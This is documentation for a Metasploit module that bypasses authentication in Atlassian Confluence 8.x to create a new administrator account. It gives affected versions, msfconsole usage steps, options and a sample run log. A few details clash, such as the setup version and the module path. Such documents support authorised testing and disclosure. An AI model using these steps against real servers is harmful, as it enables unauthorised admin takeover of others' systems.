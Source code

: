 # Description

This module exploits an Broken Access Control vulnerability in Atlassian Confluence servers leads to Authentication Bypass.

A specially crafted request can be create new admin account without authorization in the Atlassian server.
## Vulnerable Application
Affecting Atlassian Confluence from version 8.0.0 to before 8.3.3, from version 8.4.0 before 8.4.3 and from version 8.5.0 before 8.5.2.

## Verification Steps

1. Setting up a working installation of Atlassian Confluence Server before 8.0.0
2. Start `msfconsole`
3. `use use auxiliary/admin/http/atlassian_confluence_auth_bypass`
4. `set RHOST <IP>`
5. `set RPORT <PORT>`
6. `check`
7. You should see `The target is vulnerable`
8. `set NEW_USERNAME <username>`
9. `set NEW_PASSWORD <password>`
10. `run`
11. You should get a new admin account. 

## Options
- **TARGETURI**: Path to Atlassian Confluence installation ("/" is the default)
- **NEW_USERNAME**: Username to be used when creating a new user with admin privileges.
- **NEW_PASSWORD**: Password to be used when creating a new user with admin privileges.
- **NEW_EMAIL**: E-mail to be used when creating a new user with admin privileges.

## Scenarios
## Tested on Confluence Server 8.0.0 with Linux target (Ubuntu 20.04)
```
msf6 > use auxiliary/multi/http/atlassian_confluence_auth_bypass
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set RHOSTS <YOUR_TARGET>
RHOSTS => <YOUR_TARGET>
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_USERNAME admin_1337
NEW_USERNAME => admin_1337
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_PASSWORD admin_1337
NEW_PASSWORD => admin_1337
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > run
[*] Running module against <YOUR_TARGET>

[+] Admin user was created successfully. Credentials: admin_1337 - admin_1337
[+] Now you can login as adminstrator from: http://<YOUR_TARGET>:8090/login.action
[*] Auxiliary module execution completed
```
